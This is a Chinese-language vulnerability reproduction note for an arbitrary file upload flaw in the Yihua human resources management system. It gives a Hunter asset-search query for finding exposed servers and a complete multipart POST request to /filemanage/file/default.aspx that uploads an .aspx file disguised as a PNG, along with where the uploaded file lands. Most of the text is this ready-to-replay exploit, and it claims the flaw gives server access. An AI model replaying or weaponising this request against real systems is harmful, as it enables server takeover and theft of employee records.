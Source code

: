 # 亿华人力资源管理系统filemanage存在任意文件上传漏洞

# 一、漏洞简介
亿华人力资源管理系统是一款全面的人力资源管理软件，旨在帮助企业实现员工档案管理规范化、薪资管理自动化、招聘管理流程化等目标。该系统涵盖了人力资源管理的各个方面，包括员工档案管理、薪资管理、招聘管理、培训管理、福利管理等。亿华人力资源管理系统filemanage存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 亿华人力资源管理系统

# 三、资产测绘
+ hunter`web.body="亿华人力资源管理系统"`
+ 特征

![1700719530357-795ccebb-a7d7-426f-ad2e-6292dafa922e.png](./img/WTXbO54ISXKjDEmu/1700719530357-795ccebb-a7d7-426f-ad2e-6292dafa922e-046567.png)

# 四、漏洞复现
```plain
POST /filemanage/file/default.aspx HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------13611309432955470360700636523
Content-Length: 1170
Connection: close
Cookie: ASP.NET_SessionId=2g3mplfduhthivdwifteza3q
Upgrade-Insecure-Requests: 1

-----------------------------13611309432955470360700636523
Content-Disposition: form-data; name="__VIEWSTATE"

/wEPDwULLTEzNjk1NjQwNjYPZBYCAgMPZBYGAgEPDxYCHgRUZXh0BQ0vRmlsZXNVcGxvYWQvZGQCAw8PFgIeB1Zpc2libGVoZGQCBA8PFgIfAWhkZBgBBR5fX0NvbnRyb2xzUmVxdWlyZVBvc3RCYWNrS2V5X18WAQUIQXV0b05hbWWy1sk+LR5PsSft3vRvaTFxMKfM4/Mdc2SRqdis5w3/ag==
-----------------------------13611309432955470360700636523
Content-Disposition: form-data; name="__VIEWSTATEGENERATOR"

5338F018
-----------------------------13611309432955470360700636523
Content-Disposition: form-data; name="fileToUpload"; filename="2.aspx"
Content-Type: image/png

123
-----------------------------13611309432955470360700636523
Content-Disposition: form-data; name="UploadBtn"

上传文件
-----------------------------13611309432955470360700636523
```

![1700989027405-0de5f0a6-b55e-4722-a428-fa3c48b6f79a.png](./img/WTXbO54ISXKjDEmu/1700989027405-0de5f0a6-b55e-4722-a428-fa3c48b6f79a-603997.png)

上传文件位置

```plain
/FilesUpload/2.aspx
```

![1700989045882-fc17b807-e1fb-4552-9726-160375aba6ac.png](./img/WTXbO54ISXKjDEmu/1700989045882-fc17b807-e1fb-4552-9726-160375aba6ac-901354.png)



> 更新: 2024-02-29 23:55:44  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/elmyeuhlruvlkvox>